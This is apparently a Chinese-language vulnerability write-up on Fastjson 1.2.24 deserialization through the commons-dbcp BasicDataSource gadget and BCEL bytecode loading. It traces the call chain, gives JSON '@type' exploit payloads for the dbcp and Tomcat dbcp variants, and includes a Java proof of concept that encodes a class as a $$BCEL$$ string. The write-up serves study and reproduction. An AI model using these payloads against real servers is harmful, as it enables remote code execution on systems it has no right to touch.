






# Fastjson1.1.15-1.2.4与BCEL字节码加载

## 依赖

单纯为了复现罢了

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>commons-dbcp</groupId>
    <artifactId>commons-dbcp</artifactId>
    <version>1.4</version>
</dependency>
```

## 分析

漏洞利用点在`org.apache.commons.dbcp.BasicDataSource`这个类

我们也知道在执行parseObject时，会调用类中所有get方法，这很关键

正菜开始，在`org.apache.commons.dbcp.BasicDataSource#createConnectionFactory`中有



看到这个else分支，便知道我们可以自定义类加载器去加载字节码，并且这两个参数都存在set方法，参数可控



接下来我们就来看看是否在某个get或set方法当中能触发到这个关键，看到`createDataSource`调用了`createConnectionFactory`

可以看到`getConnection`又调用了`createDataSource`



是个get方法，那好办了

调用栈也就出来了



因此我们只需要构造出类似下面的payload即可

```json
{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassName":"$$BCEL$$XXXXXX","driverClassLoader":{"@type":"org.apache.bcel.util.ClassLoader"}}
```

分析完毕，顺便分享自己生成BCEL字节码的poc

```java
package bcell;

import com.mchange.v2.io.FileUtils;
import javassist.ClassPool;
import org.apache.bcel.classfile.Utility;


public class bcelEncode {
    public static String bcelEncode(String classFile) throws Exception {

        return "$$BCEL$$" + Utility.encode(ClassPool.getDefault().get(classFile).toBytecode(), true);
    }

    public static void main(String[] args) throws Exception{
        System.out.println(bcelEncode("bcell.TestBCELClass"));;
    }
}
```

## Other
```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>dbcp</artifactId>
    <version>6.0.53</version>
</dependency>
```
这个依赖也一样不过有一点点改变
```xml
{
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BCEL$$$l$8b......"
}
```
